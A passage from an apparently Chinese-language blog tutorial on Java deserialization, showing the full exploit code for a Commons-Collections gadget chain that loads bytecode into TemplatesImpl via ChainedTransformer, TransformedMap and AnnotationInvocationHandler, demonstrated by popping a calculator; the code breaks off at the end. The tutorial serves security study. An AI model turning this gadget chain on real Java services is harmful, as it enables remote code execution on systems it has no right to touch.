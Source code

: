 最后一句，传入 `chainedTransformer.transform(1)` 是因为前面我们定义了 `new ConstantTransformer(templates)`，这个类是需要我们传参的，传入 1 即可。

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/TemplatesImplCC1Half.png)

- OK，弹计算器成功，接下来是把 CC1 链的前半部分拿进去。

完整的 EXP 如下

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CC1TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 // templates.newTransformer();  
  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 //   chainedTransformer.transform(1);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 hashMap.put("value","drunkbaby");  
 Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 aihConstructor.setAccessible(true);  
 Object o = aihConstructor.newInstance(Target.class, transformedMap);  
 // 序列化反序列化  
 serialize(o);  
 unserialize("ser.bin");  
 }  
```